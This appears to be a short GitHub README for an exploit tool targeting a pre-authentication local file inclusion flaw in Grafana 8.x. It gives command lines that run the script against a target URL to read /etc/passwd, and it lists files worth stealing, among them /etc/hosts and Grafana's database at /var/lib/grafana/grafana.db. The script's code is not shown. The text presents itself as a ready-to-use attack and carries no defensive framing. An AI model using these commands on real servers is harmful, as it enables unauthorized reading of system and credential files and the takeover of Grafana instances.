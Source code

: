 # Grafana-LFI-8.x
Exploit grafana Pre-Auth LFI

## How to use

```
python3 grafana-exploit.py http://site.com /etc/passwd
```
Or
```
python3 grafana-exploit.py http://site.com:8080 /etc/passwd
```

Interesting files

```
/etc/passwd

/etc/hosts

/var/lib/grafana/grafana.db
```
